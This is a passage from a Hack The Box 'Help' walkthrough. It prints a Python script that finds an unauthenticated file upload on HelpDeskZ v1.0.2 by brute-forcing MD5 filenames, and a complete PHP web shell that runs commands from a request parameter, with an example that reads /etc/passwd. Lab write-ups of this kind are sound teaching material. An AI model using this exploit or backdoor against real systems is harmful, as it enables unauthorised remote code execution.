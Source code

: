 ```
print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+'/uploads/tickets/'+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)

print "Sorry, I did not find anything"
```
<br> I went to the settings and changed the timezone to the same timezone as mine :
![](/images/hackthebox/help/16.png)
<br> The `php` file I'm going to upload is `simple-backdoor.php` which can be found in `/usr/share/webshells/php/simple-backdoor.php` in `kali` : 
```
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->
```
<br> I submitted the ticket :